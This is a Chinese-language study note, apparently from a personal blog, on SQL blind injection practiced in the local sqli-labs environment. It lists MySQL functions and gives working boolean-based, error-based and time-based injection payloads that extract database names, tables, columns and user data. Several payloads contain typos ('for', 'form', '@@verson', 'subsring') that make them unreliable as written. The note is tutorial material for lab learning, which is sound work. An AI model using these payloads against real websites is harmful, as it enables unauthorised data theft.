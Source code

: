 ```yaml
---
title: sql盲注
date: 2020-10-27 23:02:58
---
```


# SQL注入的基础

1.当在浏览器输入id值时，sql的语句会变成select .....from users where id=......LIMIT0,1
例：
http://127.0.0.1/sqli-labs/Less-1/?id=1会自动转化为select ....from users where id=’1’ LIMIT0,1
注意：（1）--+或#起注释作用，会将后面的所有语句删除掉
      （2）union的作用连接sql语句，若前一条语句为空，则显示后面语句，反之，则
           示前面一条语句
      （3）注入类型：id=’$id‘  id=$id   id=(‘$id’)   id=(“$id”)......
           闭合中的数字后面跟与类型无关的字符，将默认转换为前面的数字

# sql布尔盲注

## 基本使用函数

1. Mid（）函数
   此函数为截取字符串一部分，使用形式：Mid(column_name,start[,length])
2. substr()函数
   Substr()和substring()函数实现的功能是一样的，均为截取字符串。使用形式如下：
   string substring(string, start, length)
   string substr(string, start, length)
   注意：参数描述同mid()函数，string为第一个参数为要处理的字符串，start为开始位置，length为截取的长度。
3. Left()函数
   Left()得到字符串左部指定个数的字符，使用形式：Left ( string, n )
   string为要截取的字符串，n为长度
4. ORD（）函数，此函数为返回的第一个字符串的ascii码
   如：ORD(MID(DATABASE(),1,1))>114意为检测database（）第一位ascii码
   否大于114，也即是“r”
5. ascii()函数
   将某个字符转换为ascii码，与ORD函数相似
6. regexp 正则注入
   正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html
   用法介绍：select user() regexp '^[a-z]';
   Explain：正则表达式的用法，user()结果为 root，regexp 为匹配 root 的正则表达式。
   第二位可以用 select user() regexp '^ro'来进行。
7. like匹配注入
   和regexp正则注入类似，mysql注入的时候我们可以用like进行匹配
   用法：select user() like ‘ro%’
8. sleep()函数
   将程序挂起一段时间 ，n为n秒
9. if（）语句
    判断语句，如果第一个语句正确就执行第二个语句，如果错误就执行第三个语句
10. length(string)
    字符串的长度，string为要处理的字符串
11. database()是数据库，table()是数据表
12. CAST(str AS 目标数据类型）
            将目标str转化为目标数据类型
13. IFNULL(expr1,expr2)
            如果expr1不是null,IFNULL()返回expr1,否则它返回的是expr2，且0x20为空

## 做题思路

1. 先爆数据库，如：
   ?id=1’and length(database()) --+    看当前数据库的长度
   ?id=1’and left(database(),1) --+    看当前数据库第一个首字母
2. 再爆数据表，如：
   ?id=1’and ascii(substr((select table_name for information_schema.tables where tables_schema=database() LIMIT    0,1),1,1))=(<或>)113 --+
   以此类推，得出所有表
3. 再判断表中的列名是否有....列,如：
   ?Id=1’and 1=(select 1 from information_schema.columns where table_name=’users’and column_name regexp   ‘^username’LIMIT 0,1) --+
4. 看表中的列的内容，如；
   ?Id=1’and ORD(MID((select IFNULL(CAST(username AS CHAR),0x20）form security.users order by ip LIMIT       0,1),1,1))=68 --+
_

# 基于报错的sql盲注
## 函数
```
     Count----------------------用于计数
     Floor----------------------取得0或1，进行数据的重复
     Group by-------------------对相同数据进行分组（相同的一组）
     Rand()---------------------一个随机函数，但使用一个固定的随机数种子0后，成为固定的伪随机序列
     extractvalue（1，路径）-------------如果路径格式不正确，就会返回报错信息，如果此时输入恶意代码，则返回想要的数据
     updatexml(1,路径,1)-----------------如果路径的格式不正确，就会返回报错信息，如果此时输入恶意代码，则返回想要的数据
     exp()--------------如果里面的数据超过720，则会有溢出，并返回想要的信息
```

## 报错类型
1. 平常报错注入
     ?id=1’union select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,floor(rand(0)*2))a form      information_schema.columns group by a--+
2. 利用double数值类型超出范围进行报错注入
     ?Id=1’union select (exp(~(select * from(select user())a))),2,3 --+
3. 利用bigint溢出进行报错注入
     ?Id=1’union select (!(select * from(select user())x) - ~0),2,3 --+
4. xpath函数报错注入
     ?Id=1’and extractvalue(1,concat(0x7e,(select @@version),0x7e)) --+
     ?Id=1’and updatexml(1,concat(0x7e,(select @@verson),0x7e),1) --+
5. 利用数据重复性报错注入
     ?Id=1’union select 1,2,3 from (select NAME CONST(version(),1),NAME CONST(version(),1))x --+

# 基于时间的sql盲注
## 函数
```
   Sleep(N)-------------可以让语句运行N秒
   Benchmark()-----------一个mysql的内置函数，主要用来测试一些函数执行速度，且带有两个参数，一个为执行次数，一个是执行函数或表达式
``` 

## 延时注入类型
1. 利用sleep()函数进行注入
   ?Id=1’and if(ascii(substr(database(),1,1))=115,1,sleep(5)) --+
2. 利用benchmark()进行延时注入
   ?Id=1’union select (if(subsring(current,1,1)=char(115),benchmark(50000,encode(‘MSG’,’by 5      seconds       ’)),null)),2,3 from(select database() as current) as tb1 --+